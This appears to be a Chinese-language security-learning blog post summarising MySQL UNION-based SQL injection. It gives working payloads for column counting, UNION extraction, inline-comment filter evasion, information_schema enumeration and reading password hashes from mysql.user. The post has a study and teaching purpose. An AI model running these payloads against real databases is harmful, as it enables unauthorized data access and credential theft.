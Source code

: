 ```yaml
---
layout: post
title: "4.MySQL UNION 注入小结"
subtitle: "4.MySQL UNION 注入小结"
date: 2019-08-11
author: ppbibo
category: 习信息安全系列
finished: true
---
```

[TOC]

```mysql
mysql> select * from users order by 3;
+----+-------------+---------+---------+------+--------+
| id | name        | chinese | english | math | Strong |
+----+-------------+---------+---------+------+--------+
|  6 | ZhangJinbao |      55 |      85 |   45 |     10 |
|  2 | LiJin       |      67 |      53 |   95 |     10 |
|  7 | HuangRong   |      75 |      65 |   30 |     10 |
|  5 | LiLaicai    |      82 |      84 |   67 |     10 |
|  3 | WangWu      |      87 |      78 |   77 |     10 |
|  4 | LiYi        |      88 |      98 |   92 |     10 |
|  1 | XiaoMing    |      89 |      78 |   90 |     10 |
+----+-------------+---------+---------+------+--------+
7 rows in set (0.00 sec)

```



**UNION 注入**



```mysql
SELECT * FROM users WHERE id = 1 ORDER BY 6;

SELECT * FROM users WHERE id = 1 UNION SELECT 1,2,3,4,5,6;

SELECT * FROM users WHERE id = 1 UNION SELECT 1,2,version(),database(),5,6 FROM users #LIMIT 1;

```



**内联注释**



```mysql
SELECT * FROM users WHERE id = 1 /*!ORDER*/ BY/**/6;

SELECT * FROM users WHERE id = 1/*!*/UNION/**/SELECT 1,2,@@version,database/*asdasd*/(),5,6 FROM users #LIMIT 1;



SELECT * FROM users WHERE id = 0/*!*/OR 1 = 1 UNION/**/SELECT 1,2,@@version,database/*asdasd*/(),5,6 FROM users;
```





**解释**

ORDER BY 子句用来排序使用，**与主查询相匹配**。



**例如：**

```mysql
SELECT * FROM users WHERE id = 1 ORDER BY 6;
```

这里主查询是 `*` 就是所有列。



```mysql
SELECT name FROM users WHERE id = 1 ORDER BY 1;
```

这里查询的为 name  一个列，如果order by 2 报错提示未知列；

*/\*语句* *ERROR 1054 (42S22): Unknown column '2' in 'order clause’ 。\*/*



**查询 mysql 密码 (** 必须为ROOT权限，才可以进行跨裤操作 **)**

```mysql
SELECT host,user,authentication_string FROM mysql.user;   -- MYSQL 8.0

SELECT host,user,password FROM mysql.user;  -- MYSQL 5.5
```



**/\*获取当前用户可操作的数据库\*/**

```mysql
SELECT * FROM users WHERE id=1 UNION SELECT 1,2,3,4,5,group_concat(schema_name) FROM information_schema.schemata;
```



**/\*获取指定数据库表名\*/**

```mysql
SELECT * FROM users WHERE id=1 UNION SELECT 1,2,3,4,5,TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA='python';
```



**/\*获取指定表的列名\*/**

```mysql
SELECT * FROM users WHERE id=1 UNION SELECT 1,2,3,4,5,COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='python' AND TABLE_NAME='users';
```



**/\*获取指定列的内容\*/**

```mysql
SELECT * FROM users WHERE id=1 UNION SELECT 1,2,3,4,name,Strong FROM users;
```



**Tips:**

​        *一般都是有 information_schema这个数据裤的，这个数据裤储存了当前用户的一些信息，数据库、数据表等信息。*



group_concat()，手册上说明:该函数返回带有来自一个组的连接的非NULL值的字符串结果。